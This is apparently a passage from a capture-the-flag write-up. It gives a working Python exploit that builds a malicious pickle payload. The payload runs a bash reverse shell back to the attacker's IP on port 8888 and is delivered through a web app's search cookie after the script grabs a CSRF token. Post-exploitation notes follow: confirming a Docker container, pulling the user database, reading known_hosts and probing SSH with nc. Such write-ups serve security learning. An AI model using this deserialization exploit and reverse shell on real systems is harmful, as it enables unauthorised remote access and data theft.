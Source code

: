 ```py

class RevShell:
	def __reduce__(self):
		import os
		return os.system, (f"bash -c 'bash -i >& /dev/tcp/{args.my_ip}/8888 0>&1'",)

port="5003"

url = f"http://{args.server_ip}:{port}"

payload = base64.b64encode(pickle.dumps(RevShell())).decode()

print("Getting CSRF token")
s = requests.session()
r = s.get(url)
middleware_token = r.text.split('csrfmiddlewaretoken" value="')[-1].split('"')[0]

s.cookies['search_cookie'] = payload

print("Triggering reverse shell...")
r = s.get(f"{url}/search", data= {'csrfmiddlewaretoken': middleware_token})

```

And we get "root" access on the box. Doesn't seem right, probably in some kind of container.

We retrieve the sqlite database for further analysis. Couldn't open a new python http server on port 8000 so i just copied the db to`/media` and downloaded it via the browser.

In the db we find these users :
```
aniqfakhrul <-- SUPER USER
testing
ramsey
oliver
wan
```

We have a `.dockerenv` file on the box which mean we are in docker

Also `cat /proc/1/cgroup` tell us that we are in docker

The `~/.ssh/known_hosts` contains:
```
|1|7txb+Y2jDUkv7dZX8nHJArVqNQQ=|lKaY9N64Cr++Q2NY53t2eHQd0AA= ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFeOcZoaD3J2dGDWYGzHCP3tGGqwlbzTo1t2kv5+P+zX56hZRv1m46gvvKMXH5m6XMIE4TRIyGPjJlK23nbUF/g=
```

We don't have an ssh client on the box but it seems like `172.17.0.1` is running ssh
```
nc 172.17.0.1 22
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.10
```
